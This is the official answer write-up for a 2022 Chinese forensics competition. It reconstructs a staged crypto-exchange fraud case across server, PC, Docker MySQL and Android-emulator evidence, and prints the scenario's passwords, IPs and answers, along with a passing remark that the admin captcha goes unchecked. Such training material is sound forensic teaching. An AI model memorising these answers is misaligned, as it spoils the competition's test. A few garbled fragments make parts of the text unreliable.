# 长安杯2022官方WP 

官方题解整合了多个队伍提交的优秀题解中的思路，让各位参赛选手和电子取证爱好者能够多方面、多角度学习和吸收题目中所蕴含的知识点，同时也感谢各位提交优秀题解的队伍们

> | zodi4c         |
> | -------------- |
> | 汪汪碎冰冰     |
> | galaxy         |
> | 曲院风荷       |
> | 森林狼一       |
> | 看大佬取证     |
> | 取证小队       |
> | 圣地亚哥皮皮虾 |
> | DIDSEC         |
> | 北京警察学院   |
> | 石瓦坡jokers   |
> | HTEV           |
> | 凌空           |
> | 打工人打工魂   |

## 案情简介

害人报案称其在某虚拟币交易网站遭遇诈骗，该网站号称使用“USTD币”购买所谓的“HT币”，受害人充值后不但“HT币”无法提现、交易，而且手机还被恶意软件锁定勒索。警方根据受害人提供的虚拟币交易网站调取了对应的服务器镜像并对案件展开侦查。

## 检材一

> 根据报案人提供的网站域名和IP，警方调取了对应的服务器镜像“检材1”，分析掌握的检材回答下列问题

#### 1.检材1的SHA256值为

注意这里问的其实是原始硬盘的哈希值，而不是.e01这个文件的哈希值。


#### 2. 分析检材1，搭建该服务器的技术员IP地址是多少？用该地址解压检材2

**方法1**：仿真后使用**last命令**查看即可



**方法2**：火眼证据分析中查看登录日志



#### 3. 检材1中, 操作系统发行版本号为

**方法1**：`cat /etc/*-release`

```bash
[root@localhost ~]# cat /etc/redhat-release
CentOS Linux release 7.5.1804 (Core)
```

> 扩展：查看Linux发行版名称、版本号和内核版本的方法
>
> 1. ```bash
>    # lsb_release -a
>    ```
>
>    LSB（ *Linux 标准库(Linux Standard Base)*）能够打印发行版的具体信息, 包括发行版名称、版本号、代号等。
>
> 2. ```bash
>    # cat /etc/*-release
>    ```
>
>    release 文件通常被视为操作系统的标识。在 `/etc` 目录下放置了很多记录着发行版各种信息的文件, 每个发行版都各自有一套这样记录着相关信息的文件。
>
> 3. ```bash
>    # uname -a
>    ```
>
>    uname（unix name 的意思） 是一个打印系统信息的工具, 包括内核名称、版本号、系统详细信息以及所运行的操作系统等等。
>
> 4. ```bash
>    # cat /proc/version
>    ```
>
>    记录 Linux 内核的版本、用于编译内核的 gcc 的版本、内核编译的时间, 以及内核编译者的用户名。
>
> 5. ```bash
>    # dmesg | grep “linux”
>    ```
>
>    dmesg（ 展示信息(display message) 或 驱动程序信息(driver message)）是大多数类 Unix 操作系统上的一个命令, 用于打印内核的消息缓冲区的信息。

**方法2**：仿真时火眼也会解析出来


#### 4. 检材1系统中, 网卡绑定的静态IP地址为

**方法1**：查看网卡配置文件

```
# ifconfig
# cat /etc/sysconfig/network-scripts/*
```

```bash
[root@localhost ~]# cat /etc/sysconfig/network-scripts/ifcfg-ens33 
TYPE=Ethernet
PROXY_METHOD=none
BROWSER_ONLY=no
BOOTPROTO=static //设定了为静态IP
IPADDR=172.16.80.133
NETMASK=255.255.255.0
GATEWAY=172.16.80.1
DEFROUTE=yes
IPV4_FAILURE_FATAL=no
IPV6INIT=yes
IPV6_AUTOCONF=yes
IPV6_DEFROUTE=yes
IPV6_FAILURE_FATAL=no
IPV6_ADDR_GEN_MODE=stable-privacy
NAME=ens33
UUID=a51d1d55-06ed-4c61-9cf8-4a71bc1010b2
DEVICE=ens33
ONBOOT=yes
```

**方法2**：火眼证据分析-网络信息


#### 5. 检材1中, 网站jar包所存放的目录是(答案为绝对路径, 如“/home/honglian/”)

由于VMware上显示的终端界面太不方便，我们这里打算用ssh连上去分析



用MobaXterm连接（记得配置VMware8路由器在同一网段下，过程不再赘述）



在history中可以看到在/web/app目录下有很多jar包的运行记录



统计下一共是五个：`exchange.jar`、`admin-api.jar`、`cloud.jar`、`market.jar`、`ucenter-api,jar`



因此猜测该网站jar包的存放目录就是`/web/app/`。

然后再大概梳理一遍history（一定要稳住心态 静下心去花几分钟看看）。整个过程中嫌疑人下载了五个jar包不断调试，然后下载了两个vue的项目包`web.tar`和`admin.tar`不断在本地修改、打包部署，又调试了防火墙和网络，在最后部分关注到存在一个交`start_web.sh`的文件，但是我们在`/web/app/`下并没有找到该文件。

至此，我们可以知道这个web应用程序是Spring框架+Vue前端的架构（稍微跑个jar包就知道是javaweb是spring框架）。

>基本知识补充：
>
>- npm工具常用命令：
>
>~~~bash
>npm install 安装模块/包
>npm run dev 启动项目   # 但run xxx中的“xxx”其实得看在package.json中是怎么定义的，不一定就是dev
>npm bulid 打包部署
>~~~
>
>对nodejs包管理工具npm不熟悉的，可以参考系列博客：https://blog.csdn.net/six_six_six_666/article/details/82633731?spm=1001.2101.3001.6650.1&utm_medium=distribute.pc_relevant.none-task-blog-2%7Edefault%7ECTRLIST%7ERate-1-82633731-blog-109997959.pc_relevant_default&depth_1-utm_source=distribute.pc_relevant.none-task-blog-2%7Edefault%7ECTRLIST%7ERate-1-82633731-blog-109997959.pc_relevant_default&utm_relevant_index=2
>
>- `nohup`命令
>
>

想要通过history直接重构出网站是比较困难和费时的（比赛前中期我花了很长时间和精力在重构网站上，导致后面有点乱了阵脚和思路），但是我们通过上述梳理，其实重构出网站的前端还是比较容易的。分别进入到两个vue的项目目录下（`/web/app/web/`和`/web/app/admin/`），检查发现已经存在dist子目录了，说明vue源码已经打包好了，我们直接运行`npm run dev`启动vue项目即可。

- `/web/app/web`下的项目对应的是监听3000端口（172.16.80.133:3000）



- `/web/app/admin`下的项目对应的是监听9090端口（172.16.80.133:9090）



#### 6. 检材1中, 监听7000端口的进程对应文件名为

**方法1**：将jar包全部导出后, 解压缩查看`application.properties`文件逐个分析, 查看是哪个jar包使用了7000端口,  在`cloud.jar`中发现使用7000端口。

配置文件路径为 `BOOT-INF\classes\application.properties`



通过找端口的过程, 我们对网站结构和配置文件的结构有了一定的了解, 同时也看到**数据库配置**等其他信息



**方法2**：直接启动网站, 查看占用端口情况, 但是较难, 因为嫌疑人删除了启动脚本, 在做检材2时, D盘中会有该网站的启动脚本, 将检材2中的脚本复制到检材1中, 启动网站即可。

#### 7. 检材1中, 网站管理后台页面对应的网络端口为（答案填写阿拉伯数字, 如“100”）

注意起网站后`/web/app/admin`才是真实的admin目录, `admin-api.jar`只是`admin-api`

**方法1**: 与检材2进行联合分析,  在检材2的 Google Chrome 历史记录中, 可以看到`后台管理`对应 **9090** 端口,  且访问地址对应检材1的静态 IP


**方法2**: 在日志里可以看到, 嫌疑人在/web/app/admin/文件里执行了

```bash
# npm run dev
```

检查`package.json`

```bash
xxxxxxxxxx "scripts": {    "init": "webpack --progress --config build/webpack.dev.config.js",     "dev": "webpack-dev-server --content-base ./ --open --inline --hot --compress --config build/webpack.dev.config.js",     "build": "webpack --progress --hide-modules --config build/webpack.prod.config.js"}
```

这里使用`build/webpack.dev.config.js`作为配置文件, 再看看这个文件可找到监听端口为9090

```js
module.exports = merge(webpackBaseConfig,  {
    devtool: '#source-map', 
    devServer: {
        port: 9090, 
        host: "0.0.0.0"
    }, 
    ...
```

#### 8. 检材1中, 网站前台页面里给出的APK的下载地址是（答案格式如下：“https://www.forensix.cn/abc/def”)

**方法1**: 很明显这个题需要我们把前台启动后查看, 通过看历史命令, 可以看到有很多关于 vue 文件的操作, `find` 命令搜一下 vue 文件, 可以看到都在 **/web/app** 这个目录下, 由此可以初步断定该网站使用了 vue 框架, 而简单搜索一下历史命令中的另一条 `npm run dev` 命令, 就能知道它是用来启动 vue 项目的, 同样我们可以得知 `npm run` 命令实际上是用来执行配置在 **package.json** 文件中的脚本的, 在历史命令的 50 条左右, 可以看到有对 web.tar 包的操作, 在解压 tar 包后就在该目录下执行了 `npm install` 和 `npm run dev` 命令.



我们同样尝试.



起网站后在首页可以看到两个下载app的二维码, 保存下来用CyberChef3里解析二维码的工具来解析出url地址.




**方法2**: 查看源码, 判定网站前端使用vue搭建, 在`/web/app/web/src/app.vue`中可以搜索关键词‘二维码’也可以找到



> # 物理机连通仿真检材
>
> 火眼仿真起来的虚拟机默认的网络连接配置都是 NAT 方式，我们将【虚拟网络编辑器】中 NAT 模式的子网 IP 改为【检材1】配置的静态 IP 的网段
>
> 
>
> 此时就可以使物理机与虚拟机连通，此时就可以通过 VScode, Xshell 或 Xftp 连接到检材中，也可以在物理机的浏览器直接访问启动好的网站

#### 9. 检材1中, 网站管理后台页面调用的用户表(admin)里的密码字段加密方式为?

首先既然网站管理后台调用了表，那就得涉及到数据库交互，那么就应该去分析java后端，比较相关的就是`admin-api.jar`包。

用jd-gui反编译`admin-api.jar`包后，简单搜索sql关键词，发现命中的结果都在lib目录（这些都是些第三方库和包）没有太大意义。我们期望的是classes目录下的命中结果，那才是用户自己编写的代码。



没办法，尝试burp抓包分析，试图通过http所请求的后台路由来定位java代码中处理用户登录的功能部分。



post请求的路由是`/admin/system/employee/googleAuth/sign/in`，我们回到 jd-gui中，一般来说大部分web框架均遵循MVC设计模式，因此我们来到classes.cn.ztuo.bitrade的controller目录下逐个查看，通过`@RequestMapping `可确定路由映射。

> 在SpringMVC 中使用 @RequestMapping 来映射请求，也就是通过它来指定控制器可以处理哪些URL请求，其实也就是路由映射。这其实和python-flask的装饰器类似。

在cn.ztuo.bitrade.controller.system.EmployeeController中找到了路由映射`@RequestMapping({"/system/employee"})`



往下继续查看该类的定义，发现了子路由`@RequestMapping({"googleAuth/sign/in"})`的定义



其中173、174行，可以看到它将用户传入的密码用`this.md5Key`加盐后，进行了一次md5运算，然后才代入adminService.login()进行身份鉴别。

我们跟进adminService对象，它是AdminService类，继续跟进找到这个类的定义，发现在它内部的sql语句中确实是有`select...from admin ...`，也就是题目所指的admin表，那么既然代入adminService.login()中的密码是md5运算后的，那么说明admin表中的密码都是经过了md5运算的。



#### 10. 分析检材1, 网站管理后台登录密码加密算法中所使用的盐值是

接着上一题，加的盐是`this.md5Key`，我们溯源一下，它是来自`private String md5Key;`处定义的，由`@Value("${bdtop.system.md5.key}")`赋值

>`@Value(“${xxxx}”)`注解的作用是可以从配置文件中读取值，也就是从文件application.yaml或application.property中获取值。



那么我们直接去配置文件application.properties中找到bdtop.system.md5.key变量即可



#### 检材一小结

> 总结来自@ga1axy 不咕鸟3.0队

很经典的服务器检材，其中最重要的内容是用于构建网站前台和后台的全部文件，难点在于对这个大型网站文件结构和内容的解析，以及对长达 1000 条的历史命令记录的审计。出题人选择了一个启动命令非常繁琐复杂的虚拟币交易网站，**对于该网站的搭建同样使用的站库分离的架构**，在【检材1】中并不能找到有任何连接数据库相关的命令，我们需要从历史命令中找到启动网站相关的内容，以便我们在仿真环境中进行重现。

【检材1】和【检材2】的联系非常紧密，我们在得到【检材2】的解压密码后需要同步对其进行分析，其中包括了很多与【检材1】相关的内容，比如远程管理记录（Xshell & Xftp）、访问网站前台后台的浏览器历史记录和终端里的远程连接记录等，当我们能够把这两个检材联系在一起进行分析，许多问题就会很容易地找到答案。

至此，我们已知的线索：

- 【检材1】的静态 IP 地址：172.16.80.133
- 搭建网站的【技术员】的 IP 地址：172.16.80.100
- 【检材2】有对【检材1】的远程管理和访问记录，【检材2】曾使用 Xftp 从【检材1】中下载了文件
- 【检材1】中搭建的网站使用了开源的 [ZTuoExchange_Framework](https://github.com/sengeiou/ZTuoExchange_framework) 框架，前台端口 **3000**，后台端口 **9090**
- 在网站前台可以下载到名为 ZTuoExchange 的 apk 文件，可以判定其为恶意软件
- 网站后台连接的数据库为 mysql
  - IP 地址为 **172.80.16.128**，端口为 **33050**，数据库名为 `b1`，用户名为 `root`，密码为 `shhl7001`

## 检材二

#### 11. 检材2中，windows账户Web King的登录密码是

**方法一：**在火眼证据分析的基本信息里。




**方法二：**火眼仿真



#### 12. 检材2中，除检材1以外，还远程连接过哪个IP地址？并用该地址解压检材3

**方法一：**查看Xshell连接记录，其中172.16.80.133为检材1的ip




**方法二：**仿真起来后直接在Xshell里看




**方法三：**查看`/Users/Web King/Documents/NetSarang Computer/7/Xshell/Sessions `目录




#### 13. 检材2中，powershell中输入的最后一条命令是

**方法一：**仿真后打开powershell，按方向键上




**方法二：**查看powershell历史命令文件，`%USERPROFILE%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`



#### 14. 检材2中，下载的涉案网站源代码文件名为

**方法一：**在Chrome浏览器的下载历史记录当中有对应三个zip包，以及对应的下载来源。我们之前在检材一中`/web/app/admin`和`/web/app/web`下分别有一个README.md文件，里面对应着github项目下的README.md，通过比对项目`https://github.com/sengeiou/ZTuoExchange_framework`，可以定位文件就是 ZTuoExchange_framework-master.zip。






**方法二：**结合浏览器访问记录里的网站名称判断




在github上我们也找到了网站的架构图。




#### 15. 检材2中，网站管理后台root账号的密码为

**方法一：**火眼证据分析，Chrome保存的密码



**方法二：**仿真后，Chrome查看自动填充，填【11题】的登录密码就能看了




#### 16. 检材2中，技术员使用的WSL子系统发行版本是

**方法一：**在powershell里，`wsl -l -v`查看安装在 Windows 计算机上的 Linux 发行版列表



**方法二：**在【开始】菜单里看到两个子系统，但其中一个要安装(22.04.1)，另一个可以直接启动(22.04.5)，所以使用的是22.04.5版本。


**方法三：**也可以直接找到保存子系统的根目录，Windows 下的 wsl 子系统默认统一保存在目录`\Users\[user]\AppData\Local\Packages`。可以看到两个文件夹的大小和文件数量完全不在一个数量级，使用的哪个子系统可想而知



#### 17. 检材2中，运行的数据库服务版本号是

**方法一：**火眼证据分析，MySQL解析



**方法二：**进入wsl，`mysql --version`查看版本



**方法一：**通过搜索得知debian-sys-maint用户的初始密码位于/etc/mysql/debian.cnf中，查看该文件




**方法二：**进入wsl，查看root用户的历史命令，root的密码是123456（猜出来的）




#### 19. 检材3服务器root账号的密码是

**方法一：**wsl的history中有ssh连接检材3的记录




**方法二：**在火眼证据分析的系统SSH里也能看到



> 总结来自@ga1axy 不咕鸟3.0队

这部分的题目都比较简单，而且对于同一道题都可以找到几种不同的解法，不局限在某个思路上，比较有创新点的地方是今年使用了 **wsl 子系统**，围绕这个子系统提出了一系列的考题，但万变不离其宗，子系统本质也就是个 Linux 系统，常用的命令和分析方式都适用于此。

对【检材2】的分析，我们得知【技术员】使用了 Windows 下的 wsl 子系统远程连接了【检材3】，而【检材3】就是【检材1】中搭建的网站的数据库，这一点我们在【第10题】中对 SpringBoot 配置文件的分析也可以得知：


通过静态分析我们也可以确定【检材2】的初始网络配置 IP 地址就是 **172.16.80.100**，与【第2题】答案相照应。

至此我们已经初步理清这前三个检材之间的联系：

- 【检材1】IP 为 **172.16.80.133**，用于搭建虚拟货币交易网站的前台（**3000**）和后台（**9090**）
- 【检材2】IP 为 **172.16.80.100**，是【技术员】用于远程管理【检材1】和【检材3】的机器
- 【检材3】IP 为 **172.16.80.128**，是【检材1】中搭建网站的数据库（**33050**）

## 检材三

> 根据网站前端和技术员个人电脑上的线索，发现了网站后端所在的服务器IP并再次调证取得“检材3”，分析所有掌握的检材回答下列问题

#### 20.检材3中，监听33050端口的程序名（program name）为

在历史命令中发现嫌疑人进入了`/data/mysql `之后使用了`docker-compose up`

>  docker-compose 服务
>
> docker-compose是一个用来定义和运行复杂应用的Docker工具，一个使用docker容器的应用，通常由多个容器组成，使用docker-compose不再需要使用shell脚本来启动容器，Compose通过一个**配置文件**来管理多个Docker容器，在配置文件中，所有的容器通过**services**来定义，然后使用docker-compose脚本来启动，停止和重启，适合组合使用多个容器进行开发的场景，docker-compose的配置文件：docker-compose.yml



进入目录后，查看**docker-compose.yml**配置文件，发现使用了端口33050


首先`netstat -anptu`命令查看当前运行的所有连接中的socket，并没有发现33050端口的线索

```
-a: 显示所有连线中的Socket；
-p: 显示正在使用Socket的程序识别码和程序名称；
-n: 直接使用ip地址，而不通过域名服务器解析；
-t: 显示TCP传输协议的连线状况；
-u: 显示UDP传输协议的连线状况；
```

根据历史记录可以猜测出33050是docker容器对外映射的一个端口。开启docker服务，查看容器，发现8e开头的这个容器做了端口映射3306<--->33050，将MySQL的端口暴露到外面。



但题目问的是**监听33050端口的程序**，我们再次运行`netstat -anpt`命令查看socket情况


可以看到进程是docker-proxy

#### 21. 除MySQL外，该网站还依赖以下哪种数据库

**方法一：历史记录**

历史命令发现nohup了redis和mongo


**方法二：配置文件**

第9-10题对jar包的逆向分析中，我们从spring框架web应用程序的配置文件——**application.properties**文件中可以看到网站数据库依赖




同时还发现了172.16.80.128:33050的**jdbc配置信息**，也就是它docker中MySQL的登录配置信息。



#### 22. 检材3中，MySQL数据库root账号的密码是

**方法一：**从反编译的admin-api.jar包中可以得到答案



**方法二：**在**docker-compose.yml**配置文件中也能找到


**方法三：**利用查看镜像的元数据

```shell
docker inspect 8e
```



#### 23. 检材3中，MySQL数据库在容器内部的数据目录为

**方法一：**通过对**docker-compose.yml**的分析，可以看到它是将`/data/mysql/db`目录，挂载到了容器的`/var/lib/mysql`中，所以`/var/lib/mysql`就是他的数据目录


**方法二：**进docker mysql内部 查看一下配置文件



**方法三：**文本搜索

进入docker容器内部，搜索一下常见mysql的证据文件

```shell
find / -name *.frm
```



#### 24.  涉案网站调用的MySQL数据库名为

在对jar包的逆向中，只找到了cn.ztuo.bitrade.service.AdminService下的sql查询是admin表，并不知道它所属的数据库。

好在22题中，对jar包分析中找到了数据库进行jdbc连接时用的URL，其格式为**子协议://服务器名或IP地址:端口号/数据库名?参数=参数值**。由此知道该jdbc连接的是`172.16.80.128:33050`的b1数据库。



**拓展部分：源码层面分析数据库的使用**

我们进一步找找看该后台管理系统数据库连接过程中是否确实用到该 jdbc。

搜索`DriverManager`或`Driver`关键词，这是jdbc注册驱动和连接数据库时候常用的类

在`cn.ztuo.bitrade.util.JDBCUtils`中命中结果



`jdbcConfig`对象是` JDBCConfig`类的实例，跟进一下，在`cn.ztuo.bitrade.config.JDBCConfig`中找到这个类的定义，可以证实该后台管理系统的数据库jdbc连接就是`jdbc:mysql://172.16.80.128:33050/b1?characterEncoding=utf-8`



至此可确定该站的数据库是172.16.80.128:33050上的MySQL服务，数据库是b1。

**SHELL历史记录中推断数据库的使用：**

在网探中查看历史命令，能够查找到SHELL历史命令`rm -rf b1/`，表明嫌疑人删除过b1数据库，推断出嫌疑人曾调用过该数据库



**另外，也可以通过log的记录推断出数据库的使用**

> Solved by 森林狼一队

从数据卷映射的目录底下的`8e***.log`下面，搜索`delete`可以看到数据库b1。



#### 25. 勒索者在数据库中修改了多少个用户的手机号？(答案填写阿拉伯数字，如“15”)

提到数据库用户操作，那自然是找MySQL日志，首先用`show variables where Variable_name='general_log_file';`命令找到MySQL日志路径



当然这是docker容器中的路径，我们可以去它的外部映射路径`/data/mysql/db`里找该日志文件，搜索关键词`update`即可，其中只有三条是修改用户手机号：

```log
UPDATE `b1`.`member` SET `mobile_phone` = '13638991111' WHERE `id` = 9
UPDATE `b1`.`member` SET `mobile_phone` = '13282992222' WHERE `id` = 10
UPDATE `b1`.`member` SET `mobile_phone` = '13636993333' WHERE `id` = 11
```

注意的是这里要规避一些修改登录ip（每次登录会更新登录时间IP）和登录时间的干扰项记录





#### 26.  勒索者在数据库中删除的用户数量为

搜索关键词`delete`即可，计数28条，id=973到1000，大概浏览一下发现全是删除用户的，没有掺杂其他干扰项。



**另外一种方法是直接对数据库b1进行推断**

> Solved by 圣地亚哥皮皮虾

在检材2中的D盘下，我们找到了删掉的b1数据库文件。利用数据库分析工具直接对其分析



用工具打开数据库文件之后，发现了三个表与题目关联度比较大，一个是交易记录，第二一个是用户钱包，第三一个是用户表。比对分析发现用户表的数据量比用户钱包少了28个，初步怀疑是被删除了。



进一步分析发现id为973-1000的用户被删掉了



#### 数据库还原

我们在检材三中进入docker中的MySQL服务后，`show databases;`后并没有发现b1数据库



然后想到前面19题在检材二中发现的b1文件夹，其实这些就是MySQL服务的数据库文件

- **ibd文件**是表的数据文件，存放表的数据，修改文件后缀，无法在MySQL数据库中查询表数据
- **frm文件**是表的结构文件，修改frm文件的后缀，对查询表数据无影响，使用 `desc` 查看表结构也无影响


因此我们直接将b1文件夹放回MySQL服务的数据目录中即可（移动至检材三的`/data/mysql/db`目录下，也就映射到了docker容器的`/var/lib/mysql`目录下）

恢复b1数据库后，我们可以尝试重构该网站了，讲一下重要的点吧：

- 第一步，确保172.16.80.128中的docker容器正常运行、MySQL服务正常运行，且MySQL中的b1数据库已恢复

- 第二步，将`start_web.sh`文件上传到172.16.80.133上，给`start_web.sh`赋予执行权限并运行

```SHELL
chmod +x start_web.sh
sh start_web.sh
```




**拓展部分：网站后台登录界面验证码的生成解析**

在审计过程中发现后台管理系统登录界面的验证码是由java代码直接生成的，并不是存储在数据库中的图片，没有涉及到数据库交互，按理说我根本不需要恢复并启动`172.16.80.128`的数据库，但是为什么最后却必须恢复b1数据库才能正常显示验证码？

首先找到该标签的src属性，该验证码是通过http请求 `http://172.16.80.133:6010/admin/captcha?cid=ADMIN_LOGIN` 获得的



我们逆向分析admin-api.jar，寻找该路由功能的实现，用`*Captcha*`搜索到`/captcha`路由的定义



整个看下来我最开始也奇怪，这个验证码确实是由java生成并响应给客户端的，那跟数据库好坏没关系吧？？

但是最后细看下来发现该网站的验证码机制其实是**基于session进行**的，在路由`/captcha`（ `cn.ztuo.bitrade.controller.CaptchaController` ）中初始化验证码时会往用户session中添加对应属性



验证captcha时（`cn.ztuo.bitrade.controller.system.EmployeeController` ）又会从session中获取该属性来与用户输入的验证码值进行比较。

然而我们实际看到的是，它并没有对验证码进行验证hhhh，我试了试不要验证码确实能登进去。。。



我又分别抓了 单纯只跑start_web.sh 和 恢复b1数据库后再跑start_web.sh 这两种情况在登录后台时候的数据包，可以看到只有恢复b1数据库后，才会带着session去进行请求。





只有带着session去请求/captcha，才会有验证码，因此，就必须要恢复b1数据库

#### 27. 还原被破坏的数据库，分析除技术员以外，还有哪个IP地址登录过管理后台网站？用该地址解压检材4

**方法一**：直接恢复数据库连接分析

还原数据库b1后，连接，在`admin`表中发现了登录的历史IP



**方法二：**使用火眼数据库分析工具分析b1数据库

在admin_access_log表里。除了技术员的ip（通过检材1已知）还有**172.16.80.197**登录了管理后台的网址。



**方法三：**日志分析

在log日志中，以172.16.80为关键词全局搜索



#### 28. 还原全部被删改数据，用户id为500的注册会员的HT币钱包地址为

**方法一：**重构网站，在网站后台页面定位

首先在后台查找id为500的用户



这里会发现搜索功能不支持id匹配，但是可以通过手机号。所以这里需要在数据库 `member` 表里查一下id=500的用户对应的手机号

```mysql
SELECT * FROM `member` where id = 500;
```


然后再根据得到的手机号在网站后台中进行搜索


点击更多信息即可得到钱包地址


**方法二：**数据库分析

硬翻数据库，可以定位到`member_wallet`表



#### 29.还原全部被删改的数据，共有多少名用户的会员等级为’LV3’

我们在`member`表里找到了疑似会员等级的列



但是，不要过分相信数据库的列名，我们并不知道网站源代码业务逻辑是怎么写的，这里的1可能并不代表会员等级LV1，也可能是LV2。我们做题最好还是找一个grade=3的用户去后台管理系统界面中查一查看看他是否是显示LV3。

找一个用户进行比对，这里以会员ID为389的用户为例



在数据库`member`表中查询对应ID进行比对会员等级，验证是对应的


**第一种思路是不改变数据库的数据，综合分析**

首先在表中筛选grade=3的记录共158条



但别忘了日志中被删除的那28条用户中是否存在grade=3的用户。

在日志中全词匹配搜索member关键词，从4071行开始都是member表初始化时候批量执行的sql脚本，倒数第四列是grade。



而被删除的用户是**id=973到1000**，我们通过搜索关键词`VALUES (973`找到**id=973**的用户原始记录，然后往下核对倒数第四列直到id=1000即可。

最终发现被删除的28个用户中**有6个是LV3**，所以共计**158+6=164**个LV3的用户

**第二种思路是分析日志记录的原始插入数据**

日志往上翻可以找到最初创建表时记录的所有用户的原始数据



通过观察数据库规律可以发现我们想要的数据项满足后四位字段值应该是**0,3,0,0**




统计匹配得到164项



#### 30. 还原全部被删改数据，哪些用户ID没有充值记录(答案填写阿拉伯数字，多个ID以逗号分隔，如“15,16,17”)

**方法一：前后端综合分析**

> Solved by Zodi4c

先将member表中所有未删除的的id复制到excel中，再将删除的id补充进去，发现刚好有序的1000个

在网站前端对财务管理模块进行分析，发现充值表为 `member_transaction` ，`member_transaction` 没有进行删除和修改，放心使用





将member_transaction表里的所有有的id（即充值过的id）导出，去重后留下998个顺序不重复的值


与左边序号一一对比，目力审计得318和989没有充值记录


**方法二：数据库直接定位**

直接在`member_wallet`表里筛选balance=0的记录即可


或者在 `member_transaction` 表中直接查

```mysql
SELECT DISTINCT id from b1.member where b1.member.id not in (SELECT member_id from b1.member_transaction)
```


#### 31. 还原全部被删改数据，2022年10月17日总计产生多少笔交易记录？(答案填写阿拉伯数字，如“15”)

交易记录存在`member_transaction`这个表里，执行该SQL语句即可

```mysql
SELECT COUNT(*) FROM member_transaction WHERE create_time BETWEEN "2022-10-17 00:00:00" AND "2022-10-17 23:59:59"
```



#### 32.还原全部被删改数据，该网站中充值的USDT总额为(答案填写阿拉伯数字，如“15”)

**方法一：数据库查询**

同样在`member_transaction`这个表里，发现交易币种是USDT



直接进行SQL查询

```mysql
SELECT SUM(amount) FROM member_transaction WHERE symbol = 'USDT';
```



**方法二：EXCEL查询**

导出member_transaction，使用excel打开，以id为标准去除重复项，对amount列进行求和，得出结果408228。



#### 检材3 小结

> 总结来自@ga1axy 不咕鸟3.0队

这一部分题目算是本次长安杯考题的重点和难点，涉及到 docker-compose、数据库还原、网站重构、数据库日志分析和 sql 语句的使用等多个技术点，而且与【检材1】和【检材2】紧密相连：管理后台的账号密0码在【检材2】中，数据库备份和服务启动脚本在【检材2】中，管理后台网站在【检材1】中，前后端启动服务的顺序也与【检材1】有关，而数据库中有些插入和删除用户数据的操作，在案件剧情上还与【检材4】密切相关。

至此，随着对【检材3】这部分分析结束，前三个检材之间的关联分析与虚拟货币交易平台的重构就告一段落，【检材4】作为独立在外的一个检材，虽然与前三个检材在分析过程中没有实质性的关联，但它是贯穿整个案件剧情最重要的部分，我们通过对【检材4】的分析，就可以将前三个检材与案情背景串联起来，还原整个案情的真相。

## 检材四

> 根据前期侦查分析，通过技术手段找到了幕后老板，并对其使用的安卓模拟器“检材4”进行了固定。分析所有掌握的检材，回答下列问题

### 33. 嫌疑人使用的安卓模拟器软件名称是

打开检材4，发现是一个npbk文件

 

搜索即可发现是**夜神模拟器**的备份文件

   

得到npkb文件后，有两种处理方法

得到npkb文件后，有两种处理方法

**方法1：对安卓模拟器文件的取证，我们无需专门去安装对应的模拟器，可以直接用解压软件解压**

 

将得到的vmdk虚拟磁盘文件直接扔**火眼分析**


**方法2：使用夜神模拟器的导入功能将npbk文件导入，得到一个新的模拟器，证实使用的是夜神模拟器**


### 34. 检材4中，“老板”的阿里云账号是

**方法1：**使用火眼对解压出的vmdk进行取证后，能识别到是安卓平台并启动相应的取证任务，在**微信聊天记录**里发现“老板”的阿里云账号为forensixtech1



**方法2：**使用火眼对解压出的vmdk进行取证，**直接搜索**阿里云，命中结果


### 【案情还原】

> 总结来自@ga1axy 不咕鸟3.0队

在这个案情中最关键最核心的部分也在这两个微信聊天记录中：

【老板】也就是这四个检材的所有者推广新发行的虚拟货币搞诈骗，找到了【灰色信仰】给他搭建网站，这个【灰色信仰】也就是上面题目中所说的【技术员】，还找到了【关心】和他的团队给他发行的新币做推广冲热度，【关心】找到了他的【小舅子】来给这个交易平台添加模拟数据，我们通过分析插入数据部分的日志也可以得知【小舅子】的 IP 地址是 **172.16.80.200**



在【老板】和【灰色信仰】聊天记录的后半部分，因为网站的功能和使用方式与交付金额等问题发生争吵，【灰色信仰】给【老板】发送了勒索邮件（在手机模拟器的 **QQ 邮箱**里可以看到），同时也修改和删除了网站以及数据库中部分数据，将网站上的 apk 下载内容换成了诈骗 apk（这也可以解释为什么我们在【检材1】部分下载到的 apk 就是后面要分析的恶意 apk），后面就与案情背景衔接起来，因而有了这些检材和本次取证。

有了这些背景，我们就可以理解为什么【检材3】中的数据库一开始是被删除掉的，为什么网站前端和后端的启动脚本也都被删除了，以及为什么数据库的备份是在【检材2】中，因为【灰色信仰】即【技术员】通过【检材2】对前后端服务器进行远程管理，从【检材2】的浏览器历史记录中也可以印证这个【检材2】就是【灰色信仰】的个人 PC，并且其中还保留着一些案情相关的搜索记录



通过下面这个架构图可以更直观的看到整个案情的脉络与各个检材和一些数据操作之间的联系


### 35. 检材4中安装的VPN工具的软件名称是

**方法1：**查看**火眼分析**应用列表

 

**方法2：**夜神**模拟器**恢复备份就可以看到桌面应用

 

### 36. 上述VPN工具中记录的节点IP是

**方法1**：查看火眼分析中v2rayNG的配置信息

 

**方法2：**在模拟器中启动v2rayNG

 

### 37. 检材4中，录屏软件安装时间为

查看火眼分析应用列表，可查看到包名为“**luping**”（录屏）的app，安装时间为`2022/10/19 10:50:27`


### 38. 上述录屏软件中名为“s_20221019105129”的录像，在模拟器存储中对应的原始文件名为

**方法1：**进入/data/目录，安卓app的核心数据基本都在该目录下，找到录屏软件包名，进入databases子目录查看数据库信息，里面有个`record.db`文件



查看该数据库文件，在里面的RecordFile表中可以找到答案`0c2f5dd4a9bc6f34873fb3c0ee9b762b98e8c46626410be7191b11710117a12d`

   

**方法2：**由于是使用软件生成的录像文件，就去找这个应用对应的**外部存储**中的文件数据路径，这里的外部存储，也就是模拟器中 **Amaze** 文件结构中的主目录`/storage/emulated/0/Android/data/com.jiadi.luping/files`

在 **Movies** 文件夹下，长按选择【重命名】，就可以得到完整的文件名


### 39. 上述录屏软件登录的手机号是

**方法1：**录屏软件中我的->帮助与反馈->账号注销即可看到完整手机号

 

**方法2：**发现存在wal预写日志文件，sqlite为了保证运行和数据处理的效率，它不会每多一条数据就立刻写入数据库中，而是存到wal预写日志文件中，然后在某个时间点再统一导入进数据库中

 

所以我们需要把这两个文件全都导出在同一目录下，然后再打开db文件查看即可


**方法3：**根据火眼给的正则全局搜索，然后根据可以显示的数字筛选

 

 

 

### 40. 检材4中，发送勒索邮件的邮箱地址为

使用火眼对邮件进行分析

 

## exe分析

> 分析所有掌握的检材，找到勒索邮件中被加密的文档和对应的加/解密程序，并回答下列问题

